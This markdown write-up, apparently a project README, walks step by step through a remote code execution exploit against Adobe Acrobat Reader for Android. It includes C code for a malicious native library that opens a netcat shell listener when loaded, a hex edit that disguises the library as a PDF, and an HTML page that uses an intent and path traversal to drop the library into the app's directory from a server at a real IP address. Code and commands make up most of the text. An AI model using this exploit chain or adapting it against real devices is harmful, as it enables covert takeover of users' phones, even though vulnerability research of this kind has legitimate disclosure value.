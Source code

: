 ### Step 0.

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

To understand the attack we had to decompile the APK file using JADX and APKTool, and then reconstruct the machine code into Java code. We used the following command to decompile the APK file.

```bash
apktool d app.apk
```

We then used JADX to decompile the .dex file into Java code. We used the following command to decompile the .dex file.

```bash
jadx -d jadx app.apk
```

![Source Code](images/image.png)

The success of the attack depends on the CPU architecture of the device. If the device is ARM, then the .so file must be compiled for ARM. If the device is x86, then the .so file must be compiled for x86 and so on. Specifically, the .so file must be compiled for the same architecture as the device's CPU architecture otherwise it will not run. Our attack caters to x86_64 and arm64_v8a architectures.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C++
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM *vm, void *reserved)
{
    // Fork a new process
    pid_t pid = fork();

    if (pid == -1)
    {
        // Forking failed
        perror("Forking failed");
        return JNI_ERR;
    }

    if (pid == 0)
        system("toybox nc -p 6666 -L /system/bin/sh -l");

    JNIEnv *env;
    if (vm->GetEnv(reinterpret_cast<void **>(&env), JNI_VERSION_1_6) != JNI_OK)
    {
        return JNI_ERR;
    }

    return JNI_VERSION_1_6;
}

```

### Step 2.

Compile C++ code into shared library binary code using the Android NDK toolchain. This required installing the proper dependencies for compiling shared library code such as CMake. For more information on the NDK toolchain, see
https://developer.android.com/ndk/guides. After it is compiled, the shared library binary code is stored in the `libs` directory.

Edit the binary of the file to add the magic PDF bytes so Adobe will accept it as a PDF file. Any of the first 1024 bytes must be changed to the PDF magic bytes "%PDF" (0x25 0x50 0x44 0x46). We used a hex editor to do this and changed some of the first few bytes that were not being used.

```bash
hexedit libopen_cv_info.so
```

![Hex Editor](images/hex.png)

### Step 3.

The Android NDK toolchain compiles the C++ code into a shared library binary code and this all happens inside of Android Studio. It was simple to confirm the shared library binary code was compiled correctly by checking the logcat output for our print statements.

```Java
public class MainActivity extends AppCompatActivity {

    static { // Copied from source code
        Log.d("OpenCV/StaticHelper", "Trying to load library " + "opencv_info");
        try {
            System.loadLibrary("opencv_info");
            Log.d("OpenCV/StaticHelper", "Library " + "opencv_info" + " loaded");
        } catch (UnsatisfiedLinkError e) {
            Log.d("OpenCV/StaticHelper", "Cannot load library \"" + "opencv_info" + "\"");
            e.printStackTrace();
        }
    }
}
```

![Confirmation](images/confirm.png)

### Step 4.

Now that the code was ready and the PDF magic bytes were added, we needed to host it in a specific directory of our python server.

```bash
python -m http.server 8000
```

This attack uses path traversal to allow us to save the libopencv_info.so file in the library directory of Adobe Acrobat Reader. When attempting path traversal, we found that it was not working because the path traversal was also occurring on our server. So instead of have the file be named after the save location, we created the directory structure in our server and named the file `libopencv_info.so`. This allowed us to save the file in the correct directory and have the correct name. Thus using an intent whenever a user visits our server, it immediately downloads the file and saves it in the correct directory.

```HTML
<html>
	<title>RCE in Adobe Acrobat Reader for Android</title>
	<body>
		<script>
			window.location.href =
				'intent://94.59.94.173:8000/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end';
		</script>
	</body>
</html>
```

### Step 5.

Now the file was saved, whenever the user would restart the app, the shared library file would be executed when using the Fill and Sign feature and thus a reverse shell would be created.

```bash
toybox nc -p 6666 -L /system/bin/sh -l
```

### Step 6.

To confirm if the reverse was successful, we used the ADB debugger and the following command.

```bash
adb -s [device-name] shell
ss -tuln
```

![Port Checker](images/port.png)

### Step 7.

Finally, we used the following command to get a reverse shell.

```bash
telnet [IP] [6666]
```

Ignore below

```bash
cd D:\Users\Admin\platform-tools_r34.0.5-windows\platform-tools
.\adb -s 23c00d78cd0c7ece logcat
```
